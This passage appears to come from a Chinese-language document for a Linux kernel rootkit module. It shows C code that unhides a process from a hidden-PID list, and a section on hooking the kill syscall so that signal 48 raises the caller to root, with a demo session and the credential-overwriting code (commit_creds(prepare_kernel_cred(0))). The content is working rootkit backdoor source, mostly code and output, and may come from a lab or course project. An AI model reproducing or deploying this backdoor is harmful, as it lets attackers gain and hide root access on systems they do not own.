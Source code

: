 ```c
void make_pid_show(long pid)
{
    struct pid_list *i_ptr = first_pid;
    while (i_ptr)
    {
        if (i_ptr->pid == pid)
        {
            if (i_ptr->prev)
                i_ptr->prev->next = i_ptr->next;
            else
                first_pid = i_ptr->next;
            if (i_ptr->next)
                i_ptr->next->prev = i_ptr->prev;
            kfree(i_ptr);
            return;
        }
        i_ptr = i_ptr->next;
    }
    return;
}
```


### 10.获得root权限
通过kill调用获得root权限， hook kill调用，特定信号将目前进程权限改为root

#### 使用
1. 查看当前用户。命令`whoami`
    
	```
	challenge@ubuntu:~/Desktop/hymmm$ whoami
	challenge
	```


2. 获得root权限。命令`kill -48 3`，其中48是自定义的信号用于提升root权限，3无意义可以是任意的值。

	```
	challenge@ubuntu:~/Desktop/hymmm$ kill -48 3
	challenge@ubuntu:~/Desktop/hymmm$ whoami
	root
	```
	

#### 实现

```c
#if LINUX_VERSION_CODE < KERNEL_VERSION(2, 6, 29)
        current->uid = 0;
        current->suid = 0;
        current->euid = 0;
        current->gid = 0;
        current->egid = 0;
        current->fsuid = 0;
        current->fsgid = 0;
        cap_set_full(current->cap_effective);
        cap_set_full(current->cap_inheritable);
        cap_set_full(current->cap_permitted);
#else
        //这个函数分配并应用了一个新的凭证结构（uid = 0, gid = 0）从而获取root权限。
        commit_creds(prepare_kernel_cred(0));
#endif
```
